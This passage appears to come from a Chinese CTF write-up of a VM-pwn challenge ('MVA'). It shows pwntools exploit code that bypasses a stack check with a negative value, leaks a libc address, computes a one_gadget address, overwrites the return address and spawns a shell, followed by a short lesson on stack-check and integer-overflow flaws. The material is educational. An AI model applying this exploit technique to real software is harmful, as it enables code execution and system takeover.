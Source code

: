 ```python
payload += mov(0, 0xF9)			# bypass the check by making it nagative

payload += movl(0, 0x010F)
payload += mov(0, 0xF6)
payload += pop(0)				# HIGH WORD of __libc_start_main
payload += pop(1)				# MIDDLE WORD of __libc_start_main
payload += pop(2)				# LOW WORD of __libc_start_main

payload += movl(3, 243)
payload += sub(2, 2, 3)			# this step may fail due to the ignorance of borrowed bit, but in 1/16 to fail
# __libc_start_main got

payload += movl(3, 0x3FC0)		# this step may also fail due to same reason, 1/4 to fail until now
payload += sub(2, 2, 3)
payload += movl(3, 0x2)
payload += sub(1, 1, 3)
# libc load address got

payload += movl(3, 0x3B31)
payload += add(2, 2, 3)
payload += movl(3, 0xE)
payload += add(1, 1, 3)
# one_gadget address got

payload += mov(0, 3)
payload += mov(2, 0)
payload += push(0, 0)
payload += mov(1, 0)
payload += push(0, 0)
payload += mov(3, 0)
payload += push(0, 0)
# write one_gadget address to return_addr

payload = payload.ljust(0x100, b'\x00')
payload += b'\n'

# for c in payload:
# 	print('%02x' % c, end=' ')

io.sendlineafter(b'[+] Welcome to MVA, input your code now :', payload)

io.interactive()
```

![](https://img-blog.csdnimg.cn/52020bea84744e0291879fb412482998.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)


当shell拿到之后，我们发现这种题目其实并不难，只要计算一下地址然后写入就行了。就是分析代码比较麻烦，需要明确每一种指令分别代表什么含义，找到里面的漏洞进而思考如何getshell。从这道题可以看出，vm-pwn题中最为致命的就是堆栈检查不严格，可能会产生任意地址读写漏洞，还有整型溢出问题也值得关注。
